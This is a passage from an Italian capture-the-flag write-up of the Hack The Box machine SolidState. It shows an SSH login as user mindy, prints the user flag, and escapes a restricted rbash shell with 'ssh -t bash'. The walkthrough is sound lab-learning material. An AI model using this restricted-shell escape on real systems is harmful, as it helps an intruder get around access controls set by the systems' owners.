 ```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# ssh mindy@10.10.10.51
The authenticity of host '10.10.10.51 (10.10.10.51)' can't be established.
ED25519 key fingerprint is SHA256:rC5LxqIPhybBFae7BXE/MWyG4ylXjaZJn6z2/1+GmJg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.51' (ED25519) to the list of known hosts.
mindy@10.10.10.51's password:
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
```

Siamo dentro! Tuttavia, sembriamo essere in una shell bash ristretta (rbash). Una shell limitata è una shell che limita un utente bloccando/limitando alcuni dei comandi. Ecco perché il comando "whoami" non ha funzionato per noi.


I comandi "ls" e "cat" funzionano, quindi possiamo almeno visualizzare il flag user.txt.

```bash
mindy@solidstate:~$ ls
bin  user.txt
mindy@solidstate:~$ cat user.txt
9d9b795dfb275aa997cbe198f10a0997
mindy@solidstate:~$
```

Comunque posso aggirare le restrizioni della shell rbash modificando il comando ssh come segue:

```bash
┌──(root㉿kali)-[/home/kali]
└─# ssh mindy@10.10.10.51 -t bash
mindy@10.10.10.51's password:
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$

```

-t bash  farà eseguirà bash su connect invece della shell assegnata. (anche se produce un prompt rotto), e ora possiamo  eseguire id e cd:

```bash
┌──(root㉿kali)-[/home/kali]
└─# ssh mindy@10.10.10.51 -t bash
mindy@10.10.10.51's password:
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$
```
